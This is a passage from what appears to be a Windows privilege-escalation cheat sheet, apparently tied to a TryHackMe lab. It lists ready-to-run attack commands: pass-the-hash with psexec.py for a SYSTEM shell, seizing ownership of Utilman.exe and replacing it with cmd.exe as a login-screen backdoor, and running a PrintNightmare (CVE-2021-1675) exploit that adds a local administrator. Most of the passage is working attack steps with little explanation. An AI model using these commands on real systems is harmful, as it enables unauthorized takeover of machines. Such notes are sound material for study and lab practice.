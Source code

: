 **Use the hashes to get SYSTEM console with [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)**
```shell
python3 psexec.py -hashes [hash] administrator@[target-ip]
```
##### SeTakeOwnership
**Get owner of a file**
```powershell
 Get-Acl "C:\Windows\System32\Utilman.exe" | Select-Object -ExpandProperty Owner
 ```
**Become the owner of this file**
```powershell
takeown /f "C:\Windows\System32\Utilman.exe"
```
**Grant Full permission on me**
```powershell
icacls "C:\Windows\System32\Utilman.exe" /grant THMTakeOwnership:F 
```
**Replace by cmd**
```powershell
copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\Utilman.exe"
```

##### SeImpersonate / SeAssignPrimaryToken
[Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

### Abusing vulnerable software


### CVEs

#### PrintNightmare - <small>Server 2016/2019</small>
[CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)
```powershell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
```


